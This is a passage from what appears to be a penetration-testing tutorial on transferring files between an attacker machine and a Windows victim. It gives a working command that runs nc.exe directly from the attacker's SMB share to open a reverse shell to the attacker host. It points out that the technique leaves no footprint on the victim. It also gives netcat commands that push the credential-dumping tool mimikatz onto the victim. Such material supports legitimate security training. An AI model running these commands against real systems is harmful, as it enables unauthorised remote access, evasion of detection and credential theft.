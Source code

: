 Back on our attacker machine, we see the file has been transferred successfully.

![](https://juggernaut-sec.com/wp-content/uploads/2022/04/image-165.png)

## **Executing Files Directly from Attacker’s SMB Server (NO TRANSFER NEEDED)**

As a bonus, I just wanted to outline that you do not need to download any files onto the victim if you can setup a share. With the share in place on our attacker machine, we can actually execute files on the victim directly from the share folder. For example, we can get a reverse shell using nc.exe from the share without copying it to the victim.

For this example, start a netcat listener on port 443 on our attacker machine and then execute the following command on the victim:

```
\\172.16.1.30\hax\nc.exe 172.16.1.30 443 -e cmd.exe
```

And back on our listener, we have gotten a shell using nc.exe without ever downloading it onto the victim!

![](https://juggernaut-sec.com/wp-content/uploads/2022/04/image-166.png)

> This technique provides a great opportunity to utilize attacker tools without leaving a footprint on the victim.

## **Transferring Files from Attacker Using Netcat**

For this technique, we will need to have downloaded nc.exe onto the victim so that we can utilize it for file transfers.

With netcat we can transfer files to the victim from our attacker machine and from the victim to our attacker machine. The syntax for using nc.exe from a cmd.exe prompt differ a bit from the syntax in a PowerShell prompt so we will review both.

## **Transferring Files onto Victim Using Netcat: cmd.exe**

The machine that the file is getting sent to is the listener machine, which in this case is the victim. This means, we need to start our transfer by setting up a listener on the victim to catch the file we push from our attacker machine.

On the victim (first):

```
C:\temp\nc.exe -nvlp 443 > mimikatz.exe
```

With the victim listener running and ready to catch the file we send and save it as mimikatz.exe, we can proceed to push mimikatz.exe to the victim from our attacker machine.

On attacker (second):

```
nc 172.16.1.100 443 < mimikatz.exe
```
